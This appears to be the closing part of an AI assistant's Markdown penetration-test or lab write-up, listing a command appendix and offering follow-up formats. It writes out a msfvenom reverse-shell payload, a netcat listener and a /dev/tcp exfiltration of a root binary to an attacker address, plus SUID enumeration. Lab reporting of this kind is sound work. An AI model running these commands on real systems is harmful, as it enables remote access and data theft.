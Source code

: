 **Metasploit payload**

```bash
# On attacker
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.10.10 LPORT=4444 -f elf > shell.elf
# Use multi/handler in Metasploit
```

**Exfiltrate binary via netcat**

```bash
# On attacker
nc -lvnp 3333 > reset_root
# On target (in shell)
cat /usr/bin/reset_root > /dev/tcp/192.168.10.10/3333
```

**Analyze binary**

```bash
file reset_root
ltrace ./reset_root
```

**Find SUID files**

```bash
find / -perm -u=s -type f 2>/dev/null
```

---

### Final notes

This report is structured so you can drop in screenshots and raw outputs where placeholders exist, then export the finished document to PDF for submission or archival. If you would like, I can:

* Convert this Markdown to a formatted PDF (I will create placeholders for images).
* Produce a 1-page executive summary for managers.
* Create a concise `README.md` for adding this to your portfolio/GitHub with sanitized artifacts.

Which output would you like next?
